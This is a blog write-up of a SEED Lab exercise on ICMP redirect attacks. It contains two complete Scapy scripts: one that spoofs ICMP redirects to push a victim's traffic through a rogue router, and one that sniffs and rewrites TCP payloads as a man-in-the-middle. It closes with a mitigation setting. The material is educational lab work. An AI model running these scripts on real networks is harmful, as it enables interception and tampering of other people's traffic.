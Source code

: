 ```yaml
---
layout: post
title: ICMP Redirect Attack
categories: [icmp, scapy]
---
```


An ICMP redirect is an error message sent by a router to the sender of an IP packet. The purpose of this error message is to inform the sender of the IP packet that there is a better route it can use to reach its destination. While this is a neat feature, attackers can take advantage of this feature to redirect a machine's network traffic to a rouge router and sniff such traffic.

Redirects are used when a router believes a packet is being routed incorrectly, and it would like to inform the sender that it should use a different router for the subsequent packets sent to that same destination. ICMP redirect can be used by attackers to change a victim’s routing table.

```
malicious router 10.9.0.111
attacker 10.9.0.105
victim 10.9.0.5
host-A 192.168.60.5
host-B 192.168.60.6
router 10.9.0.11, 192.168.60.11
```

In this post, I aim to document my findings and observations while performing a SEED Lab.

<br>

### Launching ICMP Redirect Attack
An ICMP redirect attack unlike the ARP cache poisoning directly attacks the routing table of the victim's machine. Though this attack does not change the routing table of the victim's machine, by informing the machine of a better route, the victim's machine creates a timed cache of the "supposed" better route.
This can be done through the code:

```python
#!/usr/bin/python3
import sys, os, time
from scapy.all import *

def main():
    # ensure correct usage
    if len(sys.argv) != 5:
        usage()
        sys.exit(2)
    
    # unpack
    router = sys.argv[1]
    victim = sys.argv[2]
    rouge_r = sys.argv[3]
    destination = sys.argv[4]
    
    # create packets
    ip = IP(src = router, dst = victim)
    icmp = ICMP(type = 5, code = 1, gw = rouge_r)
    ip2 = IP(src = victim, dst = destination)
    
    # send the packet
    try:
        while True:
            send(ip / icmp / ip2 / ICMP());
            time.sleep(1.5)
    except KeyboardInterrupt:
        sys.exit("Keyboard escaped")
        #os.system('clear')

def usage():
    print('Usage: ./icmp_redirect.py <router> <victim> <rouge-r> <destination>\
    \n\trouter: IP address of the actual router\
    \n\tvictim: IP address of the victim\
    \n\trouge-r: IP address of the rouge router\
    \n\tdestination: IP address of the host outside victim network\n')


if __name__ == '__main__':
    main()
```

It is important to note that if an entry exists in the routing cache, it trumps a similar entry in the actual routing table.

***Before running the ICMP redirect attack***

![1 1-route-before-redirect](https://github.com/iukadike/blog/assets/58455326/f2032eca-9667-4bb5-9984-e89a9d0389ff)

![1 1-mtr-before-redirect](https://github.com/iukadike/blog/assets/58455326/0f8c1826-c5eb-4cbc-ba0d-96852afca07a)

***After running the ICMP redirect attack***

![1 2-route-after-redirect](https://github.com/iukadike/blog/assets/58455326/abe25b52-8e7e-46eb-b927-c1d3b9db8164)

![1 2-mtr-after-redirect](https://github.com/iukadike/blog/assets/58455326/c6269890-f706-4cca-ba5d-6a5c4edc7bae)

The packet first goes to the rouge router. Once the malicious router receives the packet, it forwards it to the router; and thus is the return trip. This is because the malicious router has an entry for the router in its routing table as seen below

***rouge router table***

![1 2-rouge-router-table](https://github.com/iukadike/blog/assets/58455326/d6b7f2c3-997a-4d9b-992a-34455ea7b843)

![rouge-router-table](https://github.com/iukadike/blog/assets/58455326/9a190864-96e0-4ff5-8c87-a8332dbb194a)

When a ping request is sent from the victim to `host-A`, two ping requests and one ping reply make up the traffic. This can be seen in Wireshark when monitoring the victim's network
- first ICMP request is from the victim to the malicious router
- second ICMP request is from the malicious router to the router
- only ICMP reply is from router to the victim

***wireshark packet trace****

![1 4-wireshark-2](https://github.com/iukadike/blog/assets/58455326/d959b7e8-a6cc-42ee-a7bb-411263e5e3d5)

<br>

### ICMP redirect attacks to redirect to a remote machine
When the gateway you want the victim to redirect traffic to is outside of the victim's network, the victim would ignore the gateway address but rather use the router address. When it does this, it adds the router to its routing cache; however, this entry is not a timed entry. This means the entry doesn't expire and can only be updated by a better route or flushed. This can be seen in the screenshots below

***route to remote machine***

![1 3-route-remote](https://github.com/iukadike/blog/assets/58455326/7dab4549-0fe5-457c-9c04-3ba8bcf8ae41)

![1 3-mtr-remote](https://github.com/iukadike/blog/assets/58455326/42812d76-9c73-4e49-83bc-1a9942bef003)

<br>

### ICMP redirect attacks to redirect to a non-existing machine on the same network
When the gateway you want the victim to redirect traffic to is on the same network as the victim but either offline or non-existent, the victim would ignore the gateway address but rather use the router address. As with the remote host, When it does this, it adds the router to its routing cache; however, this entry is not a timed entry. This means the entry doesn't expire and can only be updated by a better route or flushed. This can be seen in the screenshots below

***route to non-existent machine***

![1 3-route-remote](https://github.com/iukadike/blog/assets/58455326/7dab4549-0fe5-457c-9c04-3ba8bcf8ae41)

![1 3-mtr-remote](https://github.com/iukadike/blog/assets/58455326/42812d76-9c73-4e49-83bc-1a9942bef003)

<br>

##### side note
```
net.ipv4.conf.all.send_redirects
net.ipv4.conf.default.send_redirects
net.ipv4.conf.eth0.send_redirects
```

When these are set to 1, the malicious router forwards a message to the victim to indicate the next hop. In essence, what this does is that it informs the victim that there is a better route to get to `host-A`. The victim takes note of this and updates its routing cache accordingly.

![1 4-next-hop](https://github.com/iukadike/blog/assets/58455326/bf4c5528-cc69-454b-8569-4588c680a84c)

However, when these are set to 0, the malicious router does not forward a message to the victim to indicate the next hop. This is the option we want.

![1 4-next-hop-2](https://github.com/iukadike/blog/assets/58455326/c9c768f9-ebd6-4121-98ef-3e2abb7e21a2)

<br>

### Launching the MITM Attack
You only need to capture traffic that comes to the rouge router. When the destination is sending traffic to the victim, it will do so via the real router. It is only when the traffic originates from the victim that it goes to the rouge router. This is true because the attacking machine uses the router to send the spoof traffic.

A simple MITM Attack can be launched using the below code

```python
#!/usr/bin/env python3
import re
from scapy.all import *

print("LAUNCHING MITM ATTACK.........")

def spoof_pkt(pkt):
    newpkt = IP(bytes(pkt[IP]))
    del(newpkt.chksum)
    del(newpkt[TCP].payload)
    del(newpkt[TCP].chksum)

    if pkt[TCP].payload:
        # Decode payload
        data = pkt[TCP].payload.load.decode().lower()

        # Replace the pattern
        newdata = re.sub('ifeanyi', 'AAAAAAA', data, 1)
        
        # Send the packet wit the new data
        print(f'sending {newdata}')
        send(newpkt/newdata, verbose = 0)
    else: 
        send(newpkt, verbose = 0)

f = '(tcp port 9090) && (not ether src 02:42:22:32:2c:98)'
sniff(iface='br-5b598e26fa5c', filter=f, prn=spoof_pkt)
```

This can be better understood by the screenshots below

***MITM program***

![1 5-mitm-code](https://github.com/iukadike/blog/assets/58455326/84483232-cab3-4091-9b2f-39f483c88141)

***Server `host-A`***

![1 5-mitm-server](https://github.com/iukadike/blog/assets/58455326/3a0fe78b-40da-49bb-bc9b-651262f4e3e7)

***Victim***

![1 5-mitm-victim](https://github.com/iukadike/blog/assets/58455326/53863bb4-b58f-4408-b01b-2ad8a8489c76)

___
##### mitigation
By setting the following to 0, you can effectively prevent your machine from accepting `ICMP redirects`
```
net.ipv4.conf.all.accept_redirects
net.ipv4.conf.default.accept_redirects
net.ipv4.conf.eth0.accept_redirects
````

<br>

_Thanks for reading_

